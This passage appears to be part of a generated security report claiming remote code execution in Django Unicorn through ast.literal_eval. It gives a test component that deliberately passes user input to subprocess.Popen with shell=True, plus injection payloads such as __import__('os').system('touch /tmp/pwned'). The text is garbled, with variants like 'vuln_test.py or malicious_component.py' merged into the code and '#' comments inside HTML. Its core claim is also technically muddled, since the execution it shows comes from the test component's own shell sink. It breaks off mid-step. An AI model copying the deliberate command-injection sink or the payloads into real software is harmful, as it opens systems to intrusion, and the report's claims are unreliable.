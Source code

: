         **Visualization:**

        ```mermaid
        graph LR
            A[User Interaction (Click Action) / AJAX Request] --> B(Frontend (JS) / Attacker Controlled Request);
            B --> C[AJAX Request (with action and arguments)];
            C --> D[Backend (Django Unicorn Views)];
            D --> E[call_method_parser.parse_call_method_name()];
            E --> F[call_method_parser.eval_value() - ast.literal_eval];
            F -- Malicious Payload --> G[Remote Code Execution];
        ```

*   **Security Test Case:**
    1.  **Setup:** Prepare a Django Unicorn component with an action method that takes one argument.

        ```python
        # components/vuln_test.py or malicious_component.py
        from django_unicorn.components import UnicornView

        class VulnTestView(UnicornView): # or class MaliciousComponentView(UnicornView):
            def test_action(self, arg): # or def test_rce(self, arg):
                import subprocess
                subprocess.Popen(arg, shell=True) # or print(f"Received argument: {arg}")
                return arg
        ```

        ```html
        <!-- templates/unicorn/vuln_test.html or malicious_component.html -->
        <div>
            <button unicorn:click="test_action('ls -al /tmp')">Test Action</button> # or <button unicorn:click="test_rce('test')">Test Action</button>
        </div>
        ```
    2.  Include this component in a Django template and render the page.
    3.  Open browser developer tools and find the AJAX request payload sent when clicking "Test Action". Observe the structure of the request. Alternatively, use a tool like `curl` or Postman to craft requests directly.
    4.  **Inject Malicious Payload via Template Modification:** Modify the HTML template to inject a malicious payload as an argument to the `test_action` or `test_rce` action. For example, try to execute `os.system('touch /tmp/pwned')` or similar.

        ```html
        <!-- templates/unicorn/vuln_test.html or malicious_component.html -->
        <div>
            <button unicorn:click="test_action('__import__(\'os\').system(\'touch /tmp/pwned\')')">Test RCE</button> # or <button unicorn:click="test_rce('__import__(\'os\').system(\'touch /tmp/pwned\')')">Test RCE</button>
        </div>
        ```
    5.  Render the modified template and click the "Test RCE" button.
    6.  **Inject Malicious Payload via Direct AJAX Request Manipulation:** Using browser developer tools or a tool like `curl`, intercept or construct the AJAX request sent when the "Test Action" button is clicked. Modify the `args` in the payload to inject malicious code. For example, assuming the component name is `vuln-test` and component id is `abcdefg`, replace `"args": ["test"]` with:
